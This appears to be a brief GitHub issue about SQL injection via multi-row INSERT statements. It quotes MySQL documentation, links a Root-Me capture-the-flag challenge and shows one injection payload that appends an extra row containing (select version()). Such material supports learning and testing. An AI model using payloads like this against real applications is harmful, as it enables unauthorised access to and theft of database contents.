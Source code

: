 https://dev.mysql.com/doc/refman/5.7/en/insert.html

> INSERT statements that use VALUES syntax can insert multiple rows. To do this, include multiple lists of comma-separated column values, with lists enclosed within parentheses and separated by commas. Example:
> 
> INSERT INTO tbl_name (a,b,c) VALUES(1,2,3),(4,5,6),(7,8,9);

Test case: https://www.root-me.org/en/Challenges/Web-Server/SQL-injection-Insert

![image](https://user-images.githubusercontent.com/983708/187321521-a33bc36f-8273-4207-835d-724ceee43720.png)


INSERT INTO members (user,password,email) VALUES('13,'13','**1'),('foo','bar',(select+version()))--+-**)

![image](https://user-images.githubusercontent.com/983708/187321663-a02249aa-eff5-4cac-845d-59d85d603b4e.png)

